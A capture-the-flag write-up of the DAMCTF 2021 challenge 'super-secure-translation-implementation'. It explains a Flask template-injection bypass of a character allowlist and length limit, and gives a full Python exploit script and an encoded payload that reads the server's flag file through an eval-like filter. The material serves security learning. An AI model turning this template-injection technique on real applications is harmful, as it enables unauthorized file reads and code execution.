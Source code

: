 ```yaml
---
layout: post
title:  "[DAMCTF] super-secure-translation-implementation"
date:   "2021-11-07"
categories: [Web, Golf]
author: voidPtr
app_img: /assets/posts_images/super-secure-translation-implementation/app.PNG
check_img: /assets/posts_images/super-secure-translation-implementation/check.PNG
filters_img: /assets/posts_images/super-secure-translation-implementation/filters.PNG
payloadBase_img: /assets/posts_images/super-secure-translation-implementation/payloadBase.PNG
payloadFilter_img: /assets/posts_images/super-secure-translation-implementation/payloadFilter.PNG
---
```


The website show us the source code running on the site.  
<figure>
<img src="{{ page.app_img }}" alt="app.py">
</figure>

As we can see, it is possible to request any path as long as it exists and is in the same folder of app.py. 
Moreover, there's a path on the site, "/secure_translate/", where we can pass an argument "payload" and the server will extend the base code with our input. The perfet setup for a Server Side Template Injection.  
The problem is that our input is sanitized with a function "detect_remove_hacks". Looking at the import of this page, that function is in the file check.py. We can just request its source code in the path with "/check.py".  
<figure>
<img src="{{ page.check_img }}" alt="check.py">
</figure>

Here we can see that our input is restricted to a very limited set of characters, and to a given max lenght calculated from an external library ("rctf", imported in limit.py). An admin later told me that this limit is based on the first solve on th platform: in my case it was 161 chars. Painful.  

We need one more step before starting to build the payload: in app.py, before defining the routes, there are some custom filters added to the server for string manipulation as we can see in the comment above. Let's look at those functions in the file filters.py.
<figure>
<img src="{{ page.filters_img }}" alt="filters.py">
</figure>
There are some useful functions to convert a character in its ascii decimal notation and vice-versa, and a function that evaluates an input if it does not contain words from a blacklist, and if its initials 4 characters are not "open" or "eval".

First things first, let's try if we can make a simple template injection. Since we know we are on flask, let's try something that is not forbidden by the detect_remove_hacks() function, for example {%raw%}{{6*6}}{%endraw%}.
<figure>
<img src="{{ page.payloadBase_img }}" alt="payloadBase">
</figure>

Perfect, now we are sure that there's a way of making the server do what we want. The question is, how? We have only a bunch of chars to use, and there's not a payload using only that chars. My first answer was to try using ord() and chr() functions (python built-ins). But for some reason the server returns 500 if we try to use built-in functions inside the payload. So it came to my mind the custom filters implemented by filters.py. We can chain them to obtain another character starting from one of the allowed chars. For example, to obtain "a" we could do something like {%raw%}{{("b"|order-1)|ch}}{%endraw%}:
<figure>
<img src="{{ page.payloadFilter_img }}" alt="payloadFilter">
</figure>

Now that we know how to obtain an arbitrary character and that we can chain filters, my guess was to craft a payload and pass it to the e() function to evaluate it.
The problem now is the max lenght of the payload of 161 chars.
I wrote a python script to automate the translation of a char to its equivalent in the order|ch chain, and spent many time optimizing it to reduce the number of characters used. This was painful.  

Finally I came up with a payload, but it was of something like 174 chars. The ultimate "golf" of my code to reduce its length was to substitute the order part with its equivalent in number operations, using only the digits in the whitelist (otherwise we should translate them).
For example {%raw%}{{('l'|order+4)|ch}} == {{(111+1)|ch}} == "p"{%endraw%}.
I've done this manually because the time was almost finished and I didn't had time to automate it, but here's the script to obtain the payload until this last translation.
```python
import requests

TARGET_URL = 'https://super-secure-translation-implementation.chals.damctf.xyz'

previousNotEncoded = True

def findBestEncoding(c, l):
    resList = []
    for allowed in l:
        res = ""
        toAdd = ""
        sign = "+"
        
        toAdd = str(ord(c) - ord(allowed))
        if int(toAdd) < 0:
            sign = "-"
        if toAdd not in l:
            i = int(toAdd)
            if i == 2:
                toAdd = "1"+sign+"1"
            elif i == 3:
                tempSign = "-"
                if sign == "-":
                    tempSign = "+"
                toAdd = "4"+tempSign+"1"
            elif i == 5:
                toAdd = "4"+sign+"1"
            elif i == 7:
                toAdd = "1"+sign+"6"
            elif i == 8:
                toAdd = "4"+sign+"4"
            elif i == 9:
                toAdd = "4"+sign+"4"+sign+"1"
            else:
                toAdd1 = "1" + (sign+"1") * (abs(i)-1)
                atLeast4 = i // 4
                rest4 = i % 4
                toAdd4 = "4" + (sign+"4") * (abs(atLeast4)-1) + (sign+"1") * rest4
                atLeast6 = i // 6
                rest6 = i % 6
                toAdd6 = "6" + (sign+"6") * (abs(atLeast6)-1) + (sign+"1") * rest6
                if len(toAdd4) > len(toAdd6):
                    toAdd = toAdd6
                else:
                    toAdd = toAdd4
                if len(toAdd1) < len(toAdd):
                    toAdd = toAdd1
        res += "('"+allowed+"'|order"+ sign+toAdd+")|ch"
        resList.append(res)
    shortest = min(resList, key=len)
    return shortest


def codeStringEnhanced(s):
    global previousNotEncoded
    allowlist = [
        '"', "'", '(', ')', '{', '|', '}', '*', '+', '-', '1', '4', '6', 'b', 'c', 'd', 'e', 'h', 'l', 'o', 'r', 'u'
    ]
    res = ""
    for c in s:
        if res != "":
            if not previousNotEncoded:
                res += "+"
        if c in allowlist:
            if res == "":
                res += "'"
            if previousNotEncoded:
                res += c
            else:
                res += "'"+c
            previousNotEncoded = True
        else:
            if previousNotEncoded and res != "":
                res += "'+"
            res += findBestEncoding(c, allowlist)
            previousNotEncoded = False
    if previousNotEncoded:
        res += "'"
    res += ")"
    return res


# cmd = 'forbidlist[5]'
# cmd = '"".__class\__'
# cmd = '(eval("globals()[4]"))'
# cmd = '["b","d"]|map("u")'
# cmd = '''(eval("y('id')")'''
# cmd = 'globals()'
cmd = '(open("/flag").read())'
code = codeStringEnhanced(cmd)
payload = "{{"+code+"}}"
payload = payload.replace("'''", '"\'"')

# payloadF1 = "{{(" + code + "|e}}"
codeManual = ''''(o'+(66+44+1+1)|ch+'e'+(66+44)|ch+'("'+(44+1+1+1)|ch+(66+6*6)|ch+'l'+(4*4*6+1)|ch+(66+6*6+1)|ch+'")'+(46)|ch+'re'+(4*4*6+1)|ch+'d())')'''
payloadF1 = "{{(" + codeManual + "|e}}"
payloadF = payloadF1.replace("+", "%2B") # need this to avoid html/url errors
print(payloadF)
print(f"PAYLOAD LENGHT: {len(payloadF1)}")


r = requests.post(TARGET_URL+'/secure_translate/?payload='+payloadF)
print(f"RETURN CODE: {r.status_code}")

if(r.status_code == 200):
    text = r.text.split("<code>")[1].split("</code>")[0].split("<p>")[1].split("</p>")[0]
    text = text.strip()
    print("RESULT:")
    print(text)
else:
    print(r.text)
```
In the code above there are some commands I tried along the way ("cmd" variable).
The final payload is (open("/flag").read()). The external parenthesis are there to avoid the control in the e() filter. Its translations is:
```text
{%raw%}{{('(o'%2B(66%2B44%2B1%2B1)|ch%2B'e'%2B(66%2B44)|ch%2B'("'%2B(44%2B1%2B1%2B1)|ch%2B(66%2B6*6)|ch%2B'l'%2B(4*4*6%2B1)|ch%2B(66%2B6*6%2B1)|ch%2B'")'%2B(46)|ch%2B're'%2B(4*4*6%2B1)|ch%2B'd())')|e}}{%endraw%}
```
Its lenght is of 142 chars ("%2B" is translated in "+", so it is counted as a single char). Probably there are shorter payloads, but this has done the trick for me. 
Sending it to the server will give us our flag.

```
dam{p4infu1_all0wl1st_w3ll_don3}
```
